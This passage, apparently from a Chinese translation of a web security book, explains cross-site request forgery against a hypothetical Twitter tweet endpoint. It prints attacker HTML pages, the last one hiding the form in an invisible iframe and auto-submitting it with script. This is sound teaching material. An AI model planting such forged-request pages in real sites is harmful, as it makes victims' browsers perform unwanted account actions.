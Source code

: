 `<h1>`标签表示一级 HTML 标题 1，而`<form>`标签定义了 HTML 表单的开始和结束 2。表单的`method`属性是`POST`，`action`属性是`https://twitter.com/send_a_tweet`。这意味着当用户点击提交时，表单将向*https://twitter.com/send_a_tweet*端点提交一个 POST 请求。接下来，一个`<input>`标签定义了一个文本输入框，默认值为`Hello world!`。当表单被提交时，任何用户在此字段中的输入将作为名为`tweet_content` 3 的 POST 参数发送。第二个输入标签定义了`Submit`按钮 4。当用户点击此按钮时，表单将被提交。

当你点击页面上的提交按钮时，浏览器将向*https://twitter.com/send_a_tweet*发送一个 POST 请求。浏览器会在请求中包含你的 Twitter 会话 cookie。你可以在代理中看到由表单生成的请求。它应该类似于以下内容：

```
POST /send_a_tweet
Host: twitter.com
Cookie: session_cookie=*YOUR_TWITTER_SESSION_COOKIE*
(POST request body)
tweet_content="Hello world!"
```

这个功能存在一个漏洞：任何网站，而不仅仅是 Twitter，都可以发起这个请求。假设一个攻击者托管了自己的网页，显示了一个像图 9-2 这样的 HTML 表单。

![f09002](img/f09002.png)

图 9-2：攻击者利用 CSRF 漏洞的 HTML 表单示例

该页面的源代码如下：

```
<html> <h1>Please click Submit.</h1> <form method="POST" action="https://twitter.com/send_a_tweet" id="csrf-form"> <input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!"> <input type='submit' value="Submit"> </form>
</html>
```

当你点击此页面上的提交按钮时，浏览器将发送一个 POST 请求。由于浏览器会自动在请求中包含你的 Twitter 会话 cookie，Twitter 会将请求视为有效，导致你的账户发送推文`Follow @vickieli7 on Twitter!`。以下是相应的请求：

```
POST /send_a_tweet
Host: twitter.com
Cookie: session_cookie=*YOUR_TWITTER_SESSION_COOKIE*(POST request body)
tweet_content="Follow @vickieli7 on Twitter!"
```

即使这个请求不是来自 Twitter，Twitter 仍然会将其识别为有效，因为它包含了你的真实 Twitter 会话 cookie。每次点击恶意页面上的提交按钮时，这个攻击都会导致你发送推文。

的确，这个攻击页面并不非常有用：它需要受害者点击按钮，而大多数用户可能不会这么做。攻击者如何使这个漏洞更加可靠呢？实际上，一个恶意的 CSRF 页面可能更像这样：

```
<html> **<iframe style="display:none" name="csrf-frame">** 1 <form method="POST" action="https://twitter.com/send_a_tweet"  target="csrf-frame" id="csrf-form"> 2 <input type="text" name="tweet_content" value="Follow @vickieli7 on Twitter!"> <input type='submit' value="Submit"> </form> **</iframe>** **<script>document.getElementById("csrf-form").submit();</script>** 3
</html>
```
